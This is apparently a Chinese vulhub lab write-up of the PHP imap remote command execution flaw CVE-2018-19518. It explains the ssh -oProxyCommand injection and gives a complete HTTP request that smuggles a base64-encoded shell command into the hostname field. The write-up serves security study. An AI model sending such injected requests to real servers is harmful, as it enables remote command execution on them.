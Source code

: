 # PHP imap 远程命令执行漏洞（CVE-2018-19518）

###### by ADummy

### 0x00利用路线

​			Burpsuite抓包改包--->代码执行

### 0x01漏洞介绍			

​			php imap扩展用于在PHP中执行邮件收发操作。其`imap_open`函数会调用rsh来连接远程shell，而debian/ubuntu中默认使用ssh来代替rsh的功能（也就是说，在debian系列系统中，执行rsh命令实际执行的是ssh命令）。

因为ssh命令中可以通过设置`-oProxyCommand=`来调用第三方命令，攻击者通过注入注入这个参数，最终将导致命令执行漏洞。

### 0x02漏洞复现

访问主页

环境启动后，访问`http://your-ip:8080`即可查看web页面。Web功能是测试一个邮件服务器是否能够成功连接，需要填写服务器地址、用户名和密码。

发送如下数据包即可成功执行命令`echo '1234567890'>/tmp/test0001`：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 125

hostname=x+-oProxyCommand%3decho%09ZWNobyAnMTIzNDU2Nzg5MCc%2bL3RtcC90ZXN0MDAwMQo%3d|base64%09-d|sh}&username=111&password=222
```

![PHP_imap_远程命令执行漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_imap_远程命令执行漏洞_1.jpg)

![PHP_imap_远程命令执行漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_imap_远程命令执行漏洞_2.png)

![PHP_imap_远程命令执行漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_imap_远程命令执行漏洞_3.jpg)

![PHP_imap_远程命令执行漏洞_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/PHP_imap_远程命令执行漏洞_4.jpg)